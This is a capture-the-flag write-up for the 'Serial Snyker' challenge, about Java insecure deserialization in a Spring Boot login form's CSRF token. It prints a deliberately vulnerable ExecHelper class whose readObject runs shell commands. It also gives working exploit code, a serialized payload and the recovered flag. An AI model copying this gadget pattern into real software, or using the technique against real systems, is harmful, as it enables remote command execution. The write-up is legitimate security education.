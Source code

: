 # Serial Snyker

## Foothold

This challenge is a web one with given source code.
It's a Java application using SpringBoot framework and some homemade classes :

![main](./img/main.png)

And here is the web page, a simple authentication form: 

![main](./img/login.png)

We cannot find any database related code, but the interessing part is the CSRF token check:

![main](./img/deserialize.png)

Deserialize function are well-known to be vulnerable in many language :)

We also notice some unsed code with the classes Base64Helper and ExecHelper:

```java
package com.snykctf.serialsnyker;

import java.io.Serializable;
import java.util.Base64;

public class Base64Helper implements Serializable {
    private String base64;

    public Base64Helper(String base64) {
        this.base64 = base64;
    }

    public String decode() {
        return new String(Base64.getDecoder().decode(this.base64));
    }
}
```

```java
package com.snykctf.serialsnyker;

import java.io.*;
import java.util.Arrays;

public class ExecHelper implements Serializable {
    private Base64Helper[] command;
    private String output;

    public ExecHelper(Base64Helper[] command) throws IOException {
        this.command = command;
    }

    public void run() throws IOException {
        String[] command = new String[this.command.length];
        for (int i = 0; i < this.command.length; i++) {
            String str = this.command[i].decode();
            command[i] = str;
        }

        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        String result =  s.hasNext() ? s.next() : "";
        System.out.println("executing...");
        System.out.println(result);
        this.output = result;
        /*Process process = Runtime.getRuntime().exec(command);

        BufferedReader stdInput = new BufferedReader(new
                InputStreamReader(process.getInputStream()));

        BufferedReader stdError = new BufferedReader(new
                InputStreamReader(process.getErrorStream()));

        System.out.println("Command Output:\n");
        String s = null;
        while ((s = stdInput.readLine()) != null) {
            System.out.println(s);
        }*/
    }

    @Override
    public String toString() {
        return "ExecHelper{" +
                "command=" + Arrays.toString(command) +
                ", output='" + output + '\'' +
                '}';
    }

    private final void readObject(ObjectInputStream in) throws IOException, ClassNotFoundException {
        in.defaultReadObject();
        run();
    }
}
```

## Find the vuln

This seems to be some deserialize vulnerability. Having a look at SerializationUtils class. After reading some documentation, deserialize trigger the readObject method of the input objet, and remember the readObejct implementation in ExecHelper class:

```java
    private final void readObject(ObjectInputStream in) throws IOException, ClassNotFoundException {
        in.defaultReadObject();
        run();
    }
```

The run method has the following line of code:

```java
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
```

So if we can deserialize a well built ExecHelper object, we can execute commands :D

Luckily for us, no verification is done on the object, so we can input any serialized object in the CSRF param and let the magic happen :)


## Exploit the backdoor :D


The ExecHelper constructor is wating for an array of Base64Helper object. So we can craft objects then fill an array and call the ExecHelper constructor. Once this done,
we can serialize the class and send it as base64 in the CSRF parameter at login time :)

Here is the main class, full code is in com directory

```java
package com.snykctf.serialsnyker;

import java.io.FileOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;

public class Main {
    public static void main(String[] args) {

        Base64Helper[] b = new Base64Helper[2];
        Base64Helper ob = new Base64Helper("Y2F0"); // cat
        Base64Helper ob1 = new Base64Helper("L2hvbWUvZmxhZy50eHQ="); // /home/flag.txt

        try {
            b[0] = ob;
            b[1] = ob1;
            ExecHelper vo1 = new ExecHelper(b);
            FileOutputStream fileOut = new FileOutputStream("/tmp/ValueObject.ser");
            ObjectOutputStream out = new ObjectOutputStream(fileOut);
            out.writeObject(vo1);
            out.close();
            fileOut.close();

        }
        catch (IOException e){
            System.out.println(e);
        }


    }
}
```

```bash
$ cat /tmp/ValueObject.ser |xxd
00000000: aced 0005 7372 0023 636f 6d2e 736e 796b  ....sr.#com.snyk
00000010: 6374 662e 7365 7269 616c 736e 796b 6572  ctf.serialsnyker
00000020: 2e45 7865 6348 656c 7065 72b8 3704 f3bd  .ExecHelper.7...
00000030: 04ae 9b02 0002 5b00 0763 6f6d 6d61 6e64  ......[..command
00000040: 7400 285b 4c63 6f6d 2f73 6e79 6b63 7466  t.([Lcom/snykctf
00000050: 2f73 6572 6961 6c73 6e79 6b65 722f 4261  /serialsnyker/Ba
00000060: 7365 3634 4865 6c70 6572 3b4c 0006 6f75  se64Helper;L..ou
00000070: 7470 7574 7400 124c 6a61 7661 2f6c 616e  tputt..Ljava/lan
00000080: 672f 5374 7269 6e67 3b78 7075 7200 285b  g/String;xpur.([
00000090: 4c63 6f6d 2e73 6e79 6b63 7466 2e73 6572  Lcom.snykctf.ser
000000a0: 6961 6c73 6e79 6b65 722e 4261 7365 3634  ialsnyker.Base64
000000b0: 4865 6c70 6572 3bf9 bf0e aac6 ef69 9402  Helper;......i..
000000c0: 0000 7870 0000 0002 7372 0025 636f 6d2e  ..xp....sr.%com.
000000d0: 736e 796b 6374 662e 7365 7269 616c 736e  snykctf.serialsn
000000e0: 796b 6572 2e42 6173 6536 3448 656c 7065  yker.Base64Helpe
000000f0: 7239 2324 b561 f0ea f102 0001 4c00 0662  r9#$.a......L..b
00000100: 6173 6536 3471 007e 0002 7870 7400 0459  ase64q.~..xpt..Y
00000110: 3246 3073 7100 7e00 0674 0014 4c32 6876  2F0sq.~..t..L2hv
00000120: 6257 5576 5a6d 7868 5a79 3530 6548 513d  bWUvZmxhZy50eHQ=
00000130: 70                                       p

$ cat /tmp/ValueObject.ser |base64 -w0
rO0ABXNyACNjb20uc255a2N0Zi5zZXJpYWxzbnlrZXIuRXhlY0hlbHBlcrg3BPO9BK6bAgACWwAHY29tbWFuZHQAKFtMY29tL3NueWtjdGYvc2VyaWFsc255a2VyL0Jhc2U2NEhlbHBlcjtMAAZvdXRwdXR0ABJMamF2YS9sYW5nL1N0cmluZzt4cHVyAChbTGNvbS5zbnlrY3RmLnNlcmlhbHNueWtlci5CYXNlNjRIZWxwZXI7+b8OqsbvaZQCAAB4cAAAAAJzcgAlY29tLnNueWtjdGYuc2VyaWFsc255a2VyLkJhc2U2NEhlbHBlcjkjJLVh8OrxAgABTAAGYmFzZTY0cQB+AAJ4cHQABFkyRjBzcQB+AAZ0ABRMMmh2YldVdlpteGhaeTUwZUhRPXA=
```

![flag](./img/flag.png)

SNYK{09f30b0210c2c0fe55eea091a8f4b1d38cd10364af0544c5d7faa41cb4b49954}